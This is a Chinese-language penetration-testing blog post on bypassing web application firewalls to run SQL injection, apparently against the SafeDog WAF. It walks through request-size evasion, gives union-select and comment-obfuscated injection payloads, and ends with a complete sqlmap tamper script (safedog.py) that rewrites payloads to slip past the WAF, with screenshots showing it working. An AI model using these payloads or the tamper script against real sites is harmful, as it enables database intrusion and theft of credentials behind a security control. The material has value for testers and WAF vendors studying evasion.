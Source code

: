 ```yaml
---
date: "2017-03-07T00:00:00Z"
description: 某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。
title: 渗透测试中的Bypass技巧（三）自动化注入
url: /archivers/2017-03-10/1
---
```



## 0x00 匹配资源大小限制

某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。

Get方法提交的数据大小长度并没有限制，HTTP协议规范没有对URL长度进行限制。这个限制是特定的浏览器及服务器对它的限制。可见WAF可能在处理GET请求的时候，根据客户端（浏览器）规定的长度去匹配了，这就造成了一个缺陷。我们可以把有效数据放在这个限制的零界点，攻击语句放在零界点后方，让WAF以为这是一个正常请求，就随之放行，达到了攻击效果。

理论上讲，POST是没有大小限制的。HTTP协议规范也没有进行大小限制，起限制作用的是服务器的处理程序的处理能力。

例如在使用PHP进行POST提交时，文件大小受PHP配置文件PHP.INI限制，我们可以修改PHP.INI文件中的post_max_size参数，可将默认的2M字节，修改自己需要的大小，但由于HTTP协议的特性，这个值不宜设置过大，最大以8M为宜。假设如果服务器端设置了8M，而WAF默认只匹配2M，由此可见服务器端接受数据的大小>WAF匹配的数据最大大小。那么，我们可以根据上述方法，也可绕过WAF的拦截。


## 0x01 绕过某WAF上传

渗透测试中的Bypass技巧（二） - 知乎专栏

在上一章中我们已经举例了一个bypass上传，最重要的彩蛋就在Bypass注入啦~

## 0x02 绕过某WAF注入

我们构造一个SQL注入页面，慢慢去研究它的拦截规则：

![enter description here](https://images.payloads.online/d6591cea-4f5e-11ec-9ece-00d861bf4abb.jpg)

先从普通的语句开始做定位：

* and 1=1

* and ‘s’=’s’

* union select 1,2,3

* `union/**/select/**/user(),2,3`

* ......

* 等价替换
* And ‘s’ like ‘s’

此时我们已经可以使用like用于盲注（此时可以将所有的 = 替换成 Like ）

![enter description here](https://images.payloads.online/d6a4edbe-4f5e-11ec-82b2-00d861bf4abb.jpg)

### 注释

我们可以设想出拦截的特征正则

union与select同时出现会被拦截，union\[空格,%20,/\*部分字符\*/\]select都会被拦截，目前普通的union select都会被拦截，既然空格,%20都会被匹配到，我们只能通过/\*\*/内联来注释了（目前发现N多姿势，在这里只共享思路+一个bypass的tamper脚本）

* `/**/`

* `/*数字+字母*/`

* `/*特殊符号+数字+字母*/`

* .....more


假设union左右如果有select就拦截的话，那么定位union与select之间的敏感字符就好，假设union`[空格]`select，此时如果把空格替换成任意内联，就可bypass这个规则，此时规则也不可能是一条的。条件也是很多的。我们也只能讲内联这个规则做手脚了。

于是乎我发现`/*^xxx^xxx*/`字母加特殊字符即可bypass。

因为每个特征中都没有匹配到^与小写字母、大写字母、数字的组合，这些条件可以继续测试，笔者已经把此文写到最佳精简，测试期间也翻看过拦截日志，定位拦截特征。

（Union注入）例如在读取：mysql密码、表名的时候，我们还会查询information_schema数据库，这个可以转换大小写，或者在information_schema.TABLES直接再添加一个注释。下面就是测试过程：首先测试简单的and 1=1


![enter description here](https://images.payloads.online/d6ea58ea-4f5e-11ec-924c-00d861bf4abb.jpg)


然后我们使用注释bypass:

![enter description here](https://images.payloads.online/d72ef748-4f5e-11ec-9570-00d861bf4abb.jpg)

此时已经bypass成功了，我在这里用的是某dog 4.0（3.5也可以）

![enter description here](https://images.payloads.online/d773335e-4f5e-11ec-ba40-00d861bf4abb.jpg)

## 0x03 自动化bypass注入

我们通过编写sqlmap的tamper用于bypass，主要是需要定位各种拦截点，使用sqlmap替换Payload。

首先在sqlmap的tamper文件夹里创建一个safedog.py，编写我们的tamper脚本

![enter description here](https://images.payloads.online/d7beadfc-4f5e-11ec-8261-00d861bf4abb.jpg)

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW

def tamper(payload):
    if payload:
		bypass_SafeDog_str = "/*x^x*/"
		payload=payload.replace("UNION",bypass_SafeDog_str+"UNION"+bypass_SafeDog_str)
		payload=payload.replace("SELECT",bypass_SafeDog_str+"SELECT"+bypass_SafeDog_str)
		payload=payload.replace("AND",bypass_SafeDog_str+"AND"+bypass_SafeDog_str)
		payload=payload.replace("=",bypass_SafeDog_str+"="+bypass_SafeDog_str)
		payload=payload.replace(" ",bypass_SafeDog_str)
		payload=payload.replace("information_schema.","%20%20/*!%20%20%20%20INFOrMATION_SCHEMa%20%20%20%20*/%20%20/*^x^^x^*/%20/*!.*/%20/*^x^^x^*/")
		payload=payload.replace("FROM",bypass_SafeDog_str+"FROM"+bypass_SafeDog_str)
		#print "[+]THE PAYLOAD RUNNING...Bypass safe dog 4.0 apache version ."
		print payload
    return payload
```

我们测试一下先不载入tamper脚本：

![enter description here](https://images.payloads.online/d804cdf0-4f5e-11ec-9841-00d861bf4abb.jpg)

到了这基本没戏了，我们看看拦截日志

![enter description here](https://images.payloads.online/d858aa10-4f5e-11ec-890f-00d861bf4abb.jpg)

现在载入tamper脚本：

![enter description here](https://images.payloads.online/d8a9caee-4f5e-11ec-839d-00d861bf4abb.jpg)

可以看到已经载入，并且识别了waf指纹。



以下是跑脚本的过程

![enter description here](https://images.payloads.online/d90154bc-4f5e-11ec-a678-00d861bf4abb.jpg)

![enter description here](https://images.payloads.online/d94d48a4-4f5e-11ec-a123-00d861bf4abb.jpg)

支持布尔值注入

支持union注入

![enter description here](https://images.payloads.online/d99615f2-4f5e-11ec-b057-00d861bf4abb.jpg)